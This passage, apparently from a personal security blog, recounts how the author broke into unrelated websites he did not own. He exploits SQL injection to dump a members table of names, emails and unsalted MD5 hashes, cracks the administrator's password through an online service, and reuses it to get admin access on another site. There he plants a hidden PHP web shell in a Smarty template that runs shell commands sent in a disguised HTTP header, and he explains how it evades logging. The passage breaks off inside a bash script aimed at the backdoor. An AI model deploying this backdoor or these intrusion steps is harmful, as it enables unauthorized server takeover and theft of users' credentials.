 ## SQL Injection

Using the list of sites I found with the previous vulnerability, and the trick to access ones which have otherwise relocated, I found an amateur, custom PHP site. As mentioned above, I tried tacking things onto numeric parameters, and all of them caused an SQL error to be displayed. This is a sure sign that they can be used for SQL injection attacks, which I&#8217;ve [posted about before](http://blog.pclewis.com/2009/12/sql-injection-and-you/). Just as in my previous post, it only took a quick trip to the information_schema table to find the members table, which was full of names, emails, and insecurely hashed passwords. The administrator&#8217;s email address also happened to be located at another site on the same host.

The passwords were stored as unsalted MD5 hashes, which — as mentioned in [my other post](http://blog.pclewis.com/2009/12/sql-injection-and-you/#md5) — aren&#8217;t much better than plain text. I submitted the administrator&#8217;s password hash to [hash.insidepro.com](http://hash.insidepro.com) and had the original, 10-character, mixed-case-and-numbers password _the next morning_. Seriously.

## Authorized Code Injection is Still Code Injection

The administrator&#8217;s email address led me to another site, and his password let me in as &#8211; surprise &#8211; an administrator. The site was some kind of CMS which allowed the administrator to create dynamic pages using the [Smarty templating language](http://www.smarty.net/). I&#8217;d never heard of Smarty before, but I noticed it had an amazing feature: the ability to [embed arbitrary PHP code](http://cwe.mitre.org/data/definitions/96.html). After verifying that it wasn&#8217;t somehow restricted, I hid a little code on an unlikely page:

<pre class="brush: php; title: ; notranslate" title="">{php}
if(isset($_SERVER['HTTP_X_FORWARD_FOR']))
    system($_SERVER['HTTP_X_FORWARD_FOR'].' 2&gt;&1');
{/php}
</pre>

This just looks for a custom HTTP header, and if present, executes it as a shell command. The &#8220;2>&1&#8243; makes the shell [redirect errors to the normal output](http://tldp.org/LDP/abs/html/io-redirection.html). Without it, we would not be able to see them, or worse, they might go into a log file somewhere. The name of the header is normal-looking but actually unused &#8211; if anyone stumbles upon it, it might look legitimate at first glance.

There are a number of reasons for using a custom header instead of a query parameter:

  * less chance of someone passing it by accident
  * headers are not ordinarily logged
  * we can send normal-looking GET requests
  * magic\_quotes\_gpc does not affect headers

It&#8217;s useful to write a quick little [shell script](http://en.wikipedia.org/wiki/Shell_script) to call this page and filter the output. We don&#8217;t want to insert any markers in the output, so we&#8217;ll manually count the number of lines to strip before and after our command:

<pre class="brush: bash; title: ; notranslate" title="">#!/bin/bash

BEFORE=36 # lines from beginning to delete
AFTER=42  # lines from end to delete
URL="http://victim34.example.com/vuln.php"
HEADER="X-Forward-For"
VUSER="victim34" # so we remember who and where we are
VDIR="/home/$VUSER/victim34.example.com/public_html"
